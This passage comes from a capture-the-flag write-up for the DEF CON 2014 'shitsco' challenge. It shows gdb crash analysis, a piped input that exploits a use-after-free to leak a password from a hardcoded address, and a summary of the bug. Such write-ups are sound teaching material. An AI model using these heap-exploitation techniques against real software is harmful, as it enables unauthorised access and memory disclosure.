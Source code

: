 Using a debugger to check out the crash:

```

$ gdb -q ./shitsco ./core
Reading symbols from /home/ron/defcon-ctf-2014/shitsco/shitsco...(no debugging symbols found)...done.

Core was generated by `./shitsco'.
Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="Comment">#0  0xf75e2b75 in vfprintf () from /lib32/libc.so.6</span>
(gdb) x/i <span class="Identifier">$eip</span>
=> <span class="Constant">0xf75e2b75</span> <vfprintf+<span class="Constant">21189</span>>: repnz scas al,BYTE PTR es:[edi]
(gdb) <span class="Constant">print</span>/x <span class="Identifier">$edi</span>
$1 = <span class="Constant">0x42424242</span>
```

We can see from this that it crashed in vfprintf() while reading 0x42424242 - that's "BBBB". Sweet!

Now the last step: I want to read the password, so I can use 'enable'. So I set the commandline to 0x0804C3A0, which is the address of the password in memory. I also pipe into "head" because it causes an infinite loop:

```

$ echo -ne 'set a aaaaaaaaaaaaaaaa\nset b bbbbbbbbbbbbbbbb\nset a\nset b\nset c AAAA\xa0\xc3\x04\x08\x6c\xc3\x04\x08DDDD\nshow\n' | ./shitsco | head -n12

 oooooooo8 oooo        o88    o8
888         888ooooo   oooo o888oo  oooooooo8    ooooooo     ooooooo
 888oooooo  888   888   888  888   888ooooooo  888     888 888     888
        888 888   888   888  888           888 888         888     888
o88oooo888 o888o o888o o888o  888o 88oooooo88    88ooo888    88ooo88

Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
$ $ $ $ $ $ c: AAAA?lDDDD
: this_is_the_password
```

We got the password!! From there, all you have to do is use 'enable', then 'flag' to get the flag.

## Summary

Essentially, this was a use-after-free bug. If you de-allocated the first entry, the 'head' pointer wasn't updated and still pointed at freed memory. If you can allocate new memory of the same size, it'll take the place of the head structure and give the attacker some control over the name, value, next, and previous pointers. In theory, we could almost certainly use this for an arbitrary memory write, but in the context of this challenge it's enough to read the password from memory.

This is the first time I've seen a use-after-free issue in a CTF, so it was really cool to see it!